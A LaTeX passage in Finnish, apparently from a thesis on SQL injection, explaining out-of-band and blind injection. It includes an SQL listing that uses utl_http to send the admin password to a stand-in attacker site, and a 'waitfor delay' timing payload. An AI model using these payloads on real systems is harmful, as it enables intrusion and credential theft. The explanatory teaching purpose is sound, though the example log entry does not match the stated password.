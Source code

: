 \documentclass[finnish]{tktltiki2}
\theoremstyle{definition}
\theoremstyle{remark}
\begin{document}
	Out-of-band injektiossa tuloste saadaan eri reittiä, kuin hyökkäys on suoritettu. Sitä voidaan hyödyntää, vaikka sovellus ei palauta käyttäjälle kyselyn tulosta. Tällainen tilanne voi ilmetä esimerkiksi, jos sovellus tallettaa tietokantaan käyttäjien selaintietoja. 
	
	Selaintiedot saadaan HTTP-pyynnön User-Agent kentästä. Hyökkääjä voi tällaisessa tapauksessa lähettää User-Agent kentässä haitallista koodia. Jotta hyökkääjä saisi vastauksen suoritetusta kyselystä, hän voi ohjata vastauksen esimerkiksi oman palvelimensa logeihin. Tämä onnistuu, mikäli sovellus saadaan suorittamaan seuraavanlainen kysely: 
	
	\begin{lstlisting}[language=sql]
	utl_http('http://www.hyokkaajansivu.fi/injections/' || 
	SELECT password
	FROM User 
	WHERE username = 'admin'
	)
	\end{lstlisting}
	Oletetaan että käyttäjän admin salasana on "password123". Injektion onnistuessa tietokanta hakee ensin käyttäjän admin salasanan, jonka jälkeen se suorittaa HTTP-pyynnön osoitteeseen "http://hyokkaajansivu.fi/injections/password123". Tällöin hyökkääjän palvelimen lokitiedostossa näkyy seuraavanlainen merkintä:\textit{
	GET "/injections/admininpassword", 200}. 

	
	Sadeghianin ja kollegoiden artikkelin mukaan kyselyn tulos voidaan ohjata palvelimen sijaan esimerkiksi hyökkääjän sähköpostiin. Koska hyökkääjä sai vastauksen eri reittiä kun oli kyselyn lähettänyt, hän on tällöin suorittanut out-of-band injektion.

	\subsubsection{Sokea injektio}
	Artikkelin mukaan sokeassa injektiossa hyökkääjä ei saa kyselyn palauttamaa tulostetta selville mitään reittiä. Hyökkääjä voi päätellä hyökkäyksen onnistumisen esimerkiksi siitä kuinka nopeasti sivu latautuu. Lisäämällä injektoituun sql-kyselyyn komennon "waitfor delay 0:0:5", tietokanta odottaa 5 sekuntia ennen kuin se palauttaa tuloksen. Tästä voidaan päätellä injektion onnistuneen \cite{regexp}. Hyökkääjä voi myös tarkkailla vaikuttaako hänen tekemänsä hyökkäykset sovelluksen toimintaan tai ulkoasuun jollain tapaa.
	
	\section {Tietoturvallisen ohjelman toteutus}
\end{document}
